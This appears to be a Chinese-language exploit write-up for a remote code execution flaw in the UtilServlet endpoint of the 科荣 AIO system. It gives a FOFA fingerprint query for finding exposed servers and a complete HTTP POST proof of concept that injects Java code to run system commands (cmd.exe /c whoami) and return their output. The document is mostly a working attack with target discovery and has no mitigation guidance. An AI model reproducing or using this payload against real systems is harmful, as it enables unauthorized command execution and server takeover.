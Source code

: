 # 科荣AIO系统接口UtilServlet存在代码执行漏洞

科荣AIO UtilServlet 存在远程代码执行漏洞，攻击者通过漏洞可以获取服务器权限，导致服务器失陷。

## fofa

```javascript
body="changeAccount('8000')"
```

## poc

```javascript
POST /UtilServlet HTTP/1.1
Host:127.0.0.1
User-Agent:Mozilla/5.0(Windows NT 6.1; WOW64)AppleWebKit/534.57.2(KHTML, like Gecko)Version/5.1.7Safari/534.57.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length:322

operation=calculate&value=BufferedReader+br+%3d+new+BufferedReader(new+InputStreamReader(Runtime.getRuntime().exec("cmd.exe+/c+whoami").getInputStream()))%3bString+line%3bStringBuilder+b+%3d+new+StringBuilder()%3bwhile+((line+%3d+br.readLine())+!%3d+null)+{b.append(line)%3b}return+new+String(b)%3b&fieldName=example_field
```

![920396433c98be57376c249f469ae450](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409111012822.png)